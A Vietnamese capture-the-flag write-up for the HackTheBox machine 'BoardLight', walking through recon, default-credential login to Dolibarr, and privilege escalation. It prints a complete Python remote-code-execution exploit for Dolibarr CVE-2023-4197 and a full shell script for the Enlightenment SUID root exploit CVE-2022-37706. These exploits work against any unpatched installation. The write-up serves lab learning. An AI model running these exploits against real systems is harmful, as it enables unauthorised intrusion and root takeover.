 ```yaml
---
title: "BoardLight"
date: 2024-05-26 20:26:10 +0700
categories: [hackthebox]
tags: [hackthebox, web]
authors: [toan]
toc: true
---
```


## Introduction
Bài tương đối dễ của sesson 5, mới mở ngày 25/05/2024

## Recons
Dùng nmap scanner tool, port opens: `80, 22`. Check web trên port 80 không có gì đặc biệt. Sau khi vô tình thấy board.htb tại footer, tôi tiến hành enum vhost. có 1 miền đc scan tên là `crm.board.htb`.

## User flag
Tìm các CVE liên quan đến Vendor đang chạy trên `crm` (Dolibarr). Trước tiên server có thể đăng nhập qua default creds là `admin:admin`. Sau đó xem các CVE liên quan đến version đang chạy `Dolibarr 17.0.1`. TÔi thấy [CVE-2023-4197](https://starlabs.sg/advisories/23/23-4197/) là liên quan nhất cụ thể thuộc về CWE `CWE-20: Improper Input Validation`. Đoạn code trong bài ko chạy đc. Tôi đã tìm được đoạn code trên github đã chỉnh sửa để chạy được.
```python
# Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197)
# Via: https://TARGET_HOST/website/index.php
# Author: Poh Jia Hao (STAR Labs SG Pte. Ltd.)

#!/usr/bin/env python3
import os
import re
import requests
import sys
import uuid
requests.packages.urllib3.disable_warnings()

s = requests.Session()

def check_args():
    global target, username, password, cmd

    print("\n===== Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197) =====\n")

    if len(sys.argv) != 5:
        print("[!] Please enter the required arguments like so: python3 {} https://TARGET_URL USERNAME PASSWORD CMD_TO_EXECUTE".format(sys.argv[0]))
        sys.exit(1)

    target = sys.argv[1].strip("/")
    username = sys.argv[2]
    password = sys.argv[3]
    cmd = sys.argv[4]

def authenticate():
    global s, csrf_token

    print("[+] Attempting to authenticate...")

    # GET the CSRF token
    res = s.get(f"{target}/", verify=False)
    csrf_token = re.search("\"anti-csrf-newtoken\" content=\"(.+)\"", res.text).group(1).strip()

    # Login
    data = {
        "token": csrf_token,
        "username": username,
        "password": password,
        "actionlogin": "login"
    }
    res = s.post(f"{target}/", data=data, verify=False)

    if "Logout" not in res.text:
        print("[!] Authentication failed! Are the credentials valid?")
        sys.exit(1)
    else:
        print("[+] Authenticated successfully!")

def rce():
    # Create web site
    print("[+] Attempting to create a website...")
    website_name = uuid.uuid4().hex
    data = {
        "WEBSITE_REF": website_name,
        "token": csrf_token,
        "action": "addsite",
        "WEBSITE_LANG": "en",
        "addcontainer": "create"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Website - {website_name}" not in res.text:
        print("[!] Website creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created website name: \"{website_name}\"!")

    # Create web page
    print("[+] Attempting to create a web page...")
    webpage_name = uuid.uuid4().hex
    data = {
        "website": website_name,
        "token": csrf_token,
        "action": "addcontainer",
        "WEBSITE_TYPE_CONTAINER": "page",
        "WEBSITE_TITLE": "x",
        "WEBSITE_PAGENAME": webpage_name
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Contenair \\'{webpage_name}\\' added" not in res.text:
        print("[!] Web page creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created web page name: \"{webpage_name}\"!")

    # Modify created page
    print("[+] Attempting to modify the web page...")
    webpage_id = re.search(f"<option value=\"(.+)\" .+{webpage_name}", res.text).group(1).strip()
    data = {
        "website": website_name,
        "WEBSITE_PAGENAME": webpage_name,
        "pageid": webpage_id,
        "token": csrf_token,
        "action": "updatemeta",
        "htmlheader": f"<?PHP echo system('{cmd}'); ?>"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if "Saved" not in res.text:
        print("[!] Web page modification failed!")
        sys.exit(1)
    else:
        print("[+] Web page modified successfully!")

    # Trigger RCE
    print(f"[+] Triggering RCE now via: {target}/public/website/index.php?website={website_name}&pageref={webpage_name}")
    res = s.get(f"{target}/public/website/index.php?website={website_name}&pageref={webpage_name}", verify=False)
    if res.status_code != 200:
        print("[!] Web page is not reachable!")
        sys.exit(1)
    else:
        output = re.findall("block -->\n(.+)</head>", res.text, re.MULTILINE | re.DOTALL)[0].strip()
        print(f"[+] RCE successful! Output of command:\n\n{output}")

def main():
    check_args()
    authenticate()
    rce()

if __name__ == "__main__":
    main()
```
Các bạn có thể đọc lại để check thay đổi (không nhiều vẫn theo nội dung của PoC trong bài phân tích). bạn có thể chạy tử và thực thi code, tôi đã tim đc trên server có user tên là `larissa`, mở file config để tìm pass db thử. `/var/www/html/crm.board.htb/htdocs/conf/conf.php` tìm đc creds của user `larissa:ser<------->023!!` <br>
Login ssh bằng creds trên và get user flag.

## Root flag
Check sticky bit tìm file có sticky bit và search mạng thử cách crack, tôi đã check bằng linpeas và thử vs CVE exploit `DirtyPies` nhưng không đc (có yêu cầu xác thực) chắc đã prevent rồi. [Link CVE-2022-37706](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-37706), [Link Code](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
![image.png](https://i.postimg.cc/qv0Wq1B6/image.png)
![image.png](https://i.postimg.cc/CxNXqbdP/image.png)
```shell
larissa@boardlight:~$ cat exploit.sh
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
lên Root rồi lấy flag thôi. Cảm ơn đã xem. `good luck!`
